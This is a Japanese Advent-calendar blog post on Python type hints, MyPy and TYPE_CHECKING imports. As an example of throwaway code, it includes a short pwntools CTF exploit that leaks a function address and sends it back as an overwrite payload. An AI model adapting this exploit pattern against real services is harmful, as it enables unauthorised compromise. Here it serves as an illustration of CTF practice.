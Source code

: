 ```yaml
---
title: "Pythonの型ヒントの話"
description: "hydrogen Advent Calender 2024 day 2"
pubDate: "2024-12-02T13:21"
# update: "2024-11-19T16:00"
tags: ["hydrogen Advent Calender 2024","Python", "MyPy"]
---
```


この記事は[hydrogen Advent Calender 2024](https://adventar.org/calendars/10672)の2日目の記事です。

## 本題

### Pythonと型

Pythonでは簡単なプログラムを書く程度なら型というものをあまり意識しなくてもいいように設計されている。

```py
import re
from pwn import *

# サーバーに接続
io = remote('pwnctf.example.com', 9000)
result = io.recvuntil('1: ')

match = re.search(r'show_flag = (.+)', result.decode())
show_flag_address = match.group(1).strip()
print(show_flag_address)

show_flag_address = int(show_flag_address, 16) + 0x08

little = show_flag_address.to_bytes((show_flag_address.bit_length() + 7) // 8, byteorder='little')
# ペイロードを構築
payload = little + b" a"

io.sendline("a")
io.recvuntil(': ')
io.sendline("1")
io.recvuntil(': ')
io.sendline("1")

io.recvuntil('2: ')
io.sendline("b")
io.recvuntil(': ')
io.sendline("2")
io.recvuntil(': ')
io.sendline("2")

io.recvuntil('3: ')
io.sendline("c")
io.recvuntil(': ')
io.sendline("3")
io.recvuntil(': ')
io.sendline("3")

io.recvuntil('4: ')
io.sendline(payload)
io.recvuntil(': ')
io.sendline("+")
io.recvuntil(': ')
io.sendline("+")

print(io.recvall(timeout=10))
```

それゆえに、こういったCTFのpwnableで使うような書き捨てのコードなどを記述するのに向いた言語であるといえる。だが同時に、少しコードの規模が大きくなるとこの点が問題になってくる。

### 型ヒント

Pythonは次のような文法で関数や変数に型ヒントをつけることができる。

```py
#定数・変数
SAMPLE: int = 3

#関数
def some_process(some_arg: int, some_str: str) -> list[int]:
    pass
```

ただ、これはあくまでも型「ヒント」でしかなく実行時にこの型になることを強制するものではない。

そのため、例えば上の関数の`some_str`に`int`型の値を渡しても警告の一つすら出さずにそのまま動作するのである。謂わば、この型ヒントはコメントに近しいものである。

加えて言うと、この型ヒントは型である必要がないのである。そのため次のような書き方も文法上可能となる。

```py
HOGE: 3 = "HOGE"
FUGA: some_process = 4
PIYO: b"Mixed Martial Arts" = "UECMMA"
```

もはややりたい放題である。ただ、関数の呼び出しや演算などは書くことができないため、副作用のある型ヒントを書くのは極めて困難である。

この~~突っ込みどころしかない~~型ヒント機能を用いて静的型検査を行うツールとしてMyPyなどが存在する。

### 型解析ツールと面倒な仕様

実務においてはMyPyを用いて静的型検査を行うことが多いが、その際にもPythonの面倒な仕様が首をもたげる。

Pythonでは循環するimportができないのである。これ自体はある意味自然な仕様ではあるのだが、型をimportすることもできないのである。
そのため、型解析の際にのみtrueになるような定数を用いて条件分岐でimportすることで対処するのである。その際に、直接型ヒントを書くことができないため次のように記述する必要がある。

```py
from typing import TYPE_CHECKING

if TYPE_CHECKING:
    from hoge import Hoge

def fuga(hoge: 'Hoge') -> None:
    pass

def piyo(hoge: 'list[Hoge]') -> int:
    pass
```

型ヒントを文字列で書くことで、importを回避することができるのである。
